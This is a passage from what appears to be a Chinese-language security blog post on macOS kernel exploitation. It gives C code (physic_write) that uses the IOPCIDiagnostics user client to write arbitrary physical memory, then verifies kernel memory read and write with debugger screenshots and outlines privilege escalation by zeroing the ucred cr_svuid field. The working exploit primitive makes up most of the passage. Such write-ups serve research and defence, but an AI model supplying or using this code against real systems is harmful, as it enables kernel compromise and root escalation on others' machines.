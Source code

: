 ```
`}`

void physic_write(uint64_t paddr, uint64_t value, unsigned width) `{`
    struct IOPCIDiagnosticsParameters param;
    param.spaceType      = kIOPCI64BitMemorySpace;
    param.bitWidth       = width * 8;
    param.options        = 0;
    param.address.addr64 = paddr;
    param.value          = value;
    kern_return_t kr = IOConnectCallMethod(connection, kIOPCIDiagnosticsMethodWrite,
                                           NULL,       0,
                                           &amp;param,     sizeof(param),
                                           NULL,       NULL,
                                           NULL,       NULL);
    if (kr != KERN_SUCCESS) `{`
        printf("could not write physical address %p: %x", (void *)paddr, kr);
    `}`
`}`
```

为了验证poc是否能够对物理地址进行读写，我们需要在内核中找一块地，对该处数据进行读写。

查看kernel载入基址

[![](https://p2.ssl.qhimg.com/t016b4724df367c4a04.png)](https://p2.ssl.qhimg.com/t016b4724df367c4a04.png)

查看基址数据，我们选取`0xffffff800c000040`该处地址做读写测试

[![](https://p1.ssl.qhimg.com/t016490838ce4d4baab.png)](https://p1.ssl.qhimg.com/t016490838ce4d4baab.png)

32位的mac系统的物理地址直接就是虚拟地址，而对于64位的mac系统，将虚拟地址略去高32位即可

[![](https://p0.ssl.qhimg.com/t01fb9e98a4647a026c.png)](https://p0.ssl.qhimg.com/t01fb9e98a4647a026c.png)

读取物理地址`0xc000040`，读出来的值与调试器显示的值一致

[![](https://p3.ssl.qhimg.com/t018bc306426de9906c.png)](https://p3.ssl.qhimg.com/t018bc306426de9906c.png)

将数据`0xdeadbeefdeadbeef`写入物理地址`0xc000040`

``[![](https://p1.ssl.qhimg.com/t01e200c96d9a78c95d.png)](https://p1.ssl.qhimg.com/t01e200c96d9a78c95d.png)

回到调试器，查看`0xffffff800c000040`处的数据，写入成功

[![](https://p5.ssl.qhimg.com/t01d3b08cebc396f076.png)](https://p5.ssl.qhimg.com/t01d3b08cebc396f076.png)

现在相当于可以对内核数据任意读写了，更进一步，我们可以将ucred结构的`cr_svuid`设置成0完成提权，关于提权过程这里就不展开了，可以参考这篇文章[[macOS内核提权：利用CVE-2016-1828本地权限提升（Part2） ]](https://www.anquanke.com/post/id/169191)

WIN~

[![](https://p3.ssl.qhimg.com/t01a76ea6b43315a5e8.png)](https://p3.ssl.qhimg.com/t01a76ea6b43315a5e8.png)
